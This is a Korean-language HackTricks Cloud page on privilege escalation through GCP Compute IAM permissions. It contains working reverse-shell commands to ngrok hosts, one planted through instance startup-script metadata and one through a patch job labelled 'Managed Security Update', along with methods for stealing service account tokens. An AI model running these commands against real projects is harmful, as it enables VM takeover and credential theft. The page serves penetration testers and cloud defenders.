 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

GCP에서 Compute 및 VPC(네트워크)에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
인스턴스의 메타데이터를 수정해야 하는 모든 권한 상승 공격(새 사용자 및 SSH 키 추가 등)을 수행하려면 **인스턴스에 연결된 SA에 대해 `actAs` 권한이 필요합니다**, SA가 이미 연결되어 있더라도!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

이 권한을 사용하면 **인스턴스**의 **메타데이터** 정보를 **수정**하고 **사용자의 승인된 키**를 변경하거나 **sudo** 권한이 있는 **새 사용자**를 **생성**할 수 있습니다. 따라서 SSH를 통해 모든 VM 인스턴스에 접속하고 인스턴스가 실행 중인 GCP 서비스 계정을 탈취할 수 있습니다.\
제한 사항:

* GCP 서비스 계정은 기본적으로 VM 인스턴스에서 **매우 제한된 범위**를 가집니다.
* 로그인하려면 **SSH** 서버에 **연락할 수 있어야** 합니다.

이 권한을 악용하는 방법에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

새 시작 스크립트를 추가하고 인스턴스를 재부팅하여 이 공격을 수행할 수도 있습니다:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

이 권한은 **이전 권한과 동일한 권한**을 특정 인스턴스에 부여합니다. **이전 섹션과 동일한 취약점과 제한 사항이 적용됩니다**.

### `compute.instances.setIamPolicy`

이 종류의 권한은 **이전 권한으로 역할을 부여받을 수 있게 해주며**, 이를 악용하여 권한을 상승시킬 수 있습니다.

### **`compute.instances.osLogin`**

**OSLogin이 인스턴스에서 활성화된 경우**, 이 권한으로 **`gcloud compute ssh [INSTANCE]`**를 실행하여 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **루트 권한**은 없습니다.

{% hint style="success" %}
이 권한으로 VM 인스턴스에 성공적으로 로그인하려면 VM에 연결된 SA에 대해 `iam.serviceAccounts.actAs` 권한이 필요합니다.
{% endhint %}

### **`compute.instances.osAdminLogin`**

**OSLogin이 인스턴스에서 활성화된 경우**, 이 권한으로 **`gcloud compute ssh [INSTANCE]`**를 실행하여 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **루트 권한**을 가집니다.

{% hint style="success" %}
이 권한으로 VM 인스턴스에 성공적으로 로그인하려면 VM에 연결된 SA에 대해 `iam.serviceAccounts.actAs` 권한이 필요합니다.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

**서비스 계정이 할당된 가상 머신을 생성하고 메타데이터에 접근하여 서비스 계정의 토큰을 훔치는 것이 가능합니다**. 이를 통해 권한을 상승시킬 수 있습니다.

이 방법에 대한 익스플로잇 스크립트는 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)에서 찾을 수 있습니다.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

**`osconfig.patchDeployments.create`** 또는 **`osconfig.patchJobs.exec`** 권한이 있는 경우 [**패치 작업 또는 배포**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)를 생성할 수 있습니다. 이를 통해 환경 내에서 수평 이동을 하고 프로젝트 내 모든 컴퓨트 인스턴스에서 코드 실행을 얻을 수 있습니다.

현재로서는 인스턴스에 연결된 SA에 대해 **`actAs` 권한이 필요하지 않습니다**.

수동으로 이를 악용하려면 [**패치 작업**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **또는** [**배포**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)**을 생성해야 합니다.**\
패치 작업을 실행하려면: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

패치 배포를 배포하려면:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) 과거에 이 잘못된 구성을 악용하는 데 사용될 수 있었지만 (현재는 작동하지 않음).

**공격자는 이를 지속성을 위해 악용할 수도 있습니다.**

### `compute.machineImages.setIamPolicy`

**컴퓨트 이미지에 대한 추가 권한을 부여하세요.**

### `compute.snapshots.setIamPolicy`

**디스크 스냅샷에 대한 추가 권한을 부여하세요.**

### `compute.disks.setIamPolicy`

**디스크에 대한 추가 권한을 부여하세요.**

### 접근 범위 우회

이 링크를 따라가면 [**접근 범위를 우회하기 위한 아이디어**](../)를 찾을 수 있습니다.

### GCP 컴퓨트 인스턴스에서의 로컬 권한 상승

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 참고자료

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
